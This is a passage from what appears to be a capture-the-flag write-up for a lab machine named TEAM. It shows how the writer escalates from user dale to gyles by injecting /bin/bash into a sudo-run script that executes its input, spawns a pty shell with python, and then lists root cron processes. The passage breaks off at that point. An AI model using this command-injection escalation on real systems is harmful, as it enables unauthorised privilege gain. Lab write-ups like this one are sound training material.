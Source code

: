#### 6. Getting root

First things first, so as always I check `sudo -l`

```
 sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

`dale` can run a script as `gyles`

```
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

Once we type `/bin/bash` second time, script will stop but we will be `gyles`. 

Then we only need to run interactive python command and we are logged as `gyles`

```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: hello
Enter 'date' to timestamp the file: /bin/bash
The Date is hello
python3 -c 'import pty;pty.spawn("/bin/bash")'
gyles@TEAM:~$ 
```
<br />

Hint says that there is some process ran by root. Therefore I copy and run `pspy64s` so it quickly finds a script:

```
2021/03/08 11:21:01 CMD: UID=0    PID=1305   | /bin/bash /opt/admin_stuff/script.sh 
2021/03/08 11:21:01 CMD: UID=0    PID=1304   | /bin/bash /opt/admin_stuff/script.sh 
```
